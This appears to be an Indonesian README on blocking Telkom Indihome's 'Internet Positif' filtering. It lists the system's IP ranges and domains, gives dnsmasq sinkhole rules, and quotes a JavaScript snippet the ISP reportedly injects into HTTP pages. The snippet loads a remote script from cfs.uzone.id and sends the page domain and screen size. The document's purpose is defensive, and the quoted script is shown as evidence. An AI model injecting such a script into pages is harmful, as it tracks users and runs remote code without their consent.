 # Daftar IP Internet Positif Telkom Indihome
```
118.97.116.10
118.97.116.27
202.69.110.78
36.86.63.180
118.97.116.2
# kendedes.uzone.id
36.66.1.2
36.86.63.182 # mercusuar.uzone.id
36.86.63.185 # internetpositif.uzone.id
36.66.1.2 # welcome.indihome.co.id
```
# Daftar DOMAIN Internet Positif Telkom Indihome
```
csf.uzone.id
cfs.uzone.id
kendedes.uzone.id
cdn.uzone.id
cdn3.uzone.id
usearch.co.id
d5nxst8fruw4z.cloudfront.net
d31qbv1cthcecs.cloudfront.net
expose.uzone.id
mercusuar.uzone.id
p01.notifa.info #118.97.116.2
p02.notifa.info
p03.notifa.info
p05.notifa.info
d01.notifa.info
welcome.indihome.co.id
```

# Blokir /24
Range yang digunakan Internet Positif ada di 
```
118.97.116.0/24
36.86.63.0/24
```
jadi mending blok semuanya ;)

# Dnsmasq
Untuk memblokir domain/subdomain tambahkan di `dnsmasq.conf`
```
address=/notifa.info/127.0.0.1
address=/uzone.id/127.0.0.1
```
dengan konfigurasi diatas, semua subdomain (wildcard) dibawah contoh notifa.info akan di blokir, seperti 
```
p02.notifa.info
p03.notifa.info
p05.notifa.info
d01.notifa.info
blablablabla.notifa.info
random.apa.notifa.info
google.domain.apa.notifa.info
```


# Script JS
contoh script yang di inject ke http
```
<script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "cfs.uzone.id/2fn7a2/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHa6dUEiP6K%2fc5C582CL4NjpNgssKlLXmbTBE8IzDXCSPaiFHvyt8Q5fsYRny8X3ds6Lr7ToQwJBBAp5P%2bjKK12yr0FxrJb1ixNQVSm4FoVHOKcl3FNknXhjy%2bbVesNHJhD0cCTqdRhNvFS0F6iEXZjxMPE3QuLIQu%2frXcHuCJy3hLU4QFreC0HijsnOoLN%2ftyF0wyfyQL9NHY5W5Br2BHrjRKwDTSCJyVRi2MgeTRvJMZVrSHP%2fCKKzZJVTdtpmz9FQNiKCuhOcpWNNB2wEs1InhywhlXi%2bg%2fLs%2fI2ie5DhFiM%2fgiztMMQzXL11mHZirYErQELDIzGuYbIPcenKjW9OvxhUTTu%2bhOUc1nVkHoQAGhL0XfVqhaDPXofJbg9VGJdSA3sUnqqb%2fETChCJuhAL772tWxEYNBTEEb4lmYvGTg9WtXovN8WJhpghbYXxaRdpGeF77EkYtES3Fgvx3BJKDBSVCoLZ9Im4O5XCwtGWuPTsZfC8EiyYqCTAWPdaoqalbgI0gmD31qSGRwIq03O%2f2JQPFAx6bGaHg%3d%3d" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script>
```
solusinya gunakan **DNSCrypt** atau bagi pemilik website gunakan SSL (https) biar ngga bisa di inject oleh telkom.
